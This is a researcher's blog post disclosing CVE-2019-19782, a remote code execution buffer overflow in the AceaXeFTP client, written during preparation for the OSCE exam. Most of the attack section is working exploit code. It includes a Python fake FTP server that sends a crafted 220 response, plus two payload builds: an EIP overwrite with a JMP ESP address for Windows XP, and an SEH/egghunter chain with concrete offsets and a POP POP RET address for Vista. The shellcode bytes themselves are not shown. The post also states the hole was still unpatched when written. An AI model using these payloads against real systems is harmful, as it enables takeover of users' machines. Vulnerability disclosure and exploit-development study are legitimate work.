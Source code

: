 ```yaml
---
layout: post
title: "RCE via Buffer Overflow - AceaXeFTP"
categories: CVE_Research
---
```


**RCE via Buffer Overflow - AceaXeFTP**{: style="color: greenyellow"}

# Summary:
It's Possible to trigger a buffer overflow, in AceaXeFTP client, by hosting a malicious ftp server and sending malicious responses to the client.

# Bin info:
Name: AceaXe +
Homepage: http://www.labf.com/aceaxeplus/index.html

# Proof of Concept (PoC):

Studying to take the OSCE exam, i was simply fascinated by the Exploit dev topic, ASLR Bypass and SEH based exploits, was something that i needed to see in the internet jungle.
&nbsp;

Doing the exercises, i was able to successfuly exploit one of the examples. So, i thought "Yeah, it's time to find a really old software that i could run in a windows vista and try to find some AAAA shenanigans", and that's what i did, got first a windows xp and windows vista vm running and the AceaXe software bundle installed.
&nbsp;

At first, as i was really confortable with the basics of exploit dev, because of the OSCP background, i tried finding something in the windows xp, as it would not have ASLR nor DEP, so it would be easy to exploit. 
&nbsp;

As i was researching i found a lot of PoCs of ftp clients that got exploited by sending the response of the ftp commands with the exploit code. so, after some hours of trying a lot of gui overflows and file sizes oveflows, I finnally tried creating my own fake FTP server in python and sending the famous EHLO response with a giant string &afterwords, and it worked, EIP was finnaly overwritten by the AAAAs ! 
&nbsp;

# Finnally ! Time to exploit (winXP version):

The concept was easy. Create a simple socket listening to port 21, that sends the string after the client connects to it.

&nbsp;
{% highlight python %}


port = 21                   
s = socket.socket()
host = '0.0.0.0'              
try:
	s.bind((host, port))            
	s.listen(5)                     
	print ('[+] Ouvindo na porta 21.')
except:
	print ('[-] Problemas no socket, veja se a porta 21 ja esta sendo utilizada')
while True:
 	try:
	    conn, addr = s.accept()
	    print ('[+] Envindo o payload')     
	    conn.send(dadosenviados)
	    conn.close()
	    print ('[+] Payload enviado com sucesso')
	except:
		print ('[-] Tivemos um prolema, veja se tudo foi settado corretamente')
		
{% endhighlight %}
&nbsp;

So, after Creating a FTP server I was able to send the malicious Buffer, to exploit this vulnerability. and after doing all the steps needed to create the simple buffer overflow i was able to retrieve a Command shell on the machine
&nbsp;
By sending the following payload, i was able to take control of the EIP 

&nbsp;
{% highlight python %}

jmpesp = "\x96\x72\x01\x68"
lixo = "\x41"*2061
nopsled = "\x90"*20
eip = '\x6F\x4A\x08\x68'

payload = lixo+eip+jmpesp+nopsled+shellcode+nopsled     

dadosenviados = '220'+payload+'\r\n'

{% endhighlight %}
&nbsp;

So, nothing new there, just a classic default buffer overflow, but i was so happy that i have found it haha. It was time to exploit it in windows vista, to smack some windows ASLRs. 
&nbsp;
I exploited it using a SEH based Buffer overflow, and by using the egghunter technique.
&nbsp;
the Code used to exploit it was:

&nbsp;
{% highlight python %}


lixo1 = "\x41"*100
lixo2 = "D" * (9266-len(shellcode))
lixo3 = "C" * 576
nopsled = "\x90"*20


egghunter = "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
egghunter += "\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

egg = "w00tw00t"

nseh = "\x90\x90\xEB\x05" 
seh = "\xF8\x54\x01\x68" #POP POP RET 680154F8 in WCMDPA10.DLL

payload = lixo1 + egg + nopsled + shellcode + lixo2 + nseh + seh + egghunter + lixo3


dadosenviados = '220'+payload+'\r\n'

{% endhighlight %}
&nbsp;
The vulnerability is, by this time (dez/2019), working. 
&nbsp;
I tried contact with the vendor, but didn\`t received any response.
&nbsp;
And there are several other vulnerabilities to exploit in this software, so if you guys want some study material. this one is recommended.
&nbsp;
&nbsp;
&nbsp;

#CVE

CVE-2019-19782

